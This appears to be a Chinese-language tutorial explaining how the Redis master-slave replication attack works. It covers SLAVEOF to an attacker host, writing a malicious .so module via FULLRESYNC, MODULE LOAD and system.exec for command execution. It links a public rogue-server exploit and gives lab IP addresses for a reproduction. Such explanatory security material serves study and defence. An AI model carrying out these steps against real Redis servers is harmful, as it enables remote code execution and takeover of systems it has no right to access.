





## 1. 如何利用Redis主从漏洞

### 1.1. 主从模式  

主（master）和 从（slave）部署在不同的服务器上，当主节点写入数据时会同步到从节点的服务器上，一般主节点负责写入数据，从节点负责读取数据  

  

做个实验验证下：  

1. 本机启动两个redis，端口分别为6379（主）和6380（从）。客户端先连接6379端口，写入几个值  

2. 连接6380端口，执行slaveof  127.0.0.1  6379  ，将6379设置为主服务  
  

### 1.2. redis模块    

redis4.0后可以通过加载so文件，来实现外部扩展。并且可以通过FULLRESYNC命令同步文件到从机上。通过这些特性，从而实现攻击。  

### 1.3. 攻击步骤  

1. 连接受害者redis, 执行命令SLAVEOF evil_ip evil_ip
2. 在受害者redis设置dir和dbfilename，dbfilename为恶意so文件
3. 通过同步将module写入受害者redis磁盘上：+FULLRESYNC <Z*40> 1\r\n$<len>\r\n<payload>
4. 在受害者redis上加载模块: MODULE LOAD /tmp/exp_lin.so
5. 加载成功后，利用system.exec进行命令执行  

### 1.4. 复现过程  

exp：https://github.com/n0b0dyCN/redis-rogue-server  

1. 编译exp.so  

  

2. 运行攻击程序  

192.168.47.146是受害者IP，6666是受害者的redis端口
192.168.47.105是入侵者IP，7777是攻击程序模拟redis监听的端口，随便写  

